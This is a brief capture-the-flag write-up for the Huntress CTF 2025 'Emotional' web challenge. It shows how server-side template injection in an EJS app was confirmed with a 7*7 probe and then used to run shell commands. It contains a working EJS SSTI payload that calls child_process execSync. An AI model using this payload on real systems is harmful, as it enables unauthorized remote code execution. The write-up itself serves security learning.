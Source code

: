 ```yaml
---
title: "Huntress CTF 2025 Writeup: Emotional"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "SSTI"]
---
```


> Don't be shy, show your emotions! Get emotional if you have to! Uncover the flag.
---
![emotional-1.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/emotional-1.png)

As per the source code given, the website was rendering using ejs. I realised the website was vulnerable to SSTI attacks after it kept resetting upon submitting an SSTI polyglot to `/setEmoji`. 


To make sure, I submitted with the payload `<%= 7*7 %>`, and the server replied with 49! I then researched, and found a [GitHub repo](https://github.com/NketiahGodfred/EJS-ssti-exploit/blob/main/exploit.sh) with a payload that allows executing shell code on server. And then I submitted:

```js
<%= global.process.mainModule.constructor._load("child_process").execSync("ls"); %>
```

![emotional-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/emotional-2.png)

I then just catt'd out the flag.

![emotional-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/emotional-3.png)
